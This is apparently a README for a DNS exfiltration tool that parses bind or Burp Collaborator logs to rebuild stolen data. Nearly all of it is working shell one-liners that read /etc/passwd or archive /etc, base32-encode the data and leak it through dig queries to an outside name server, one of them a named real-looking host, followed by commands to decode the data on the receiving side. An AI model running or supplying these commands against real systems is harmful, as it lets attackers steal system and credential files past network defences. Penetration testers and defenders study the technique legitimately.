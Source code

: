 # DNS-Exfiltrate

Parses bind query logs or Private Burp Collaborator logs to exfiltrate data. Note that you will get more reliable results by specifying the name server via `dig @`...

It parses native bind query logs, or private Burp Collaborator output, which may be logged via `tee`:

```
java -jar /root/collaborator/burpsuite_pro.jar --collaborator-server | tee /root/collaborator/collaborator.log
```

Use cases (bash):

## Exfiltrate a file:

```
cat /etc/passwd | base32 -w 63 |tr -d = | while read a; do dig @<DNS Server> $a.<DNS Server>; done;
```

To recover the file (on a bind DNS server):

```
./dns-parse.py <DNS Name> query.log bind | base32 -d
```

To recover the file (on a private Burp Collaborator server):

```
./dns-parse.py <DNS Name> collaborator.log collaborator | base32 -d
```

## Exfiltrate a compressed file:

```
cat /etc/passwd | gzip - | base32 -w 63 |tr -d = | while read a; do dig @<DNS Server> $a.<DNS Server>; done;
```

To recover/unzip the file (on a bind DNS server):

```
./dns-parse.py <DNS Name> query.log bind | base32 -d | zcat
```

To recover/unzip the file (on a private Burp Collaborator server):

  ```
./dns-parse.py <DNS Name> collaborator.log collaborator | base32 -d | zcat 
```

## Exfiltrate a compressed tar archive of a directory:

```
tar czf - /etc | base32 -w 63 |tr -d =| while read a; do dig @ns1.eej.me $a.e.ns1.eej.me; done;
```
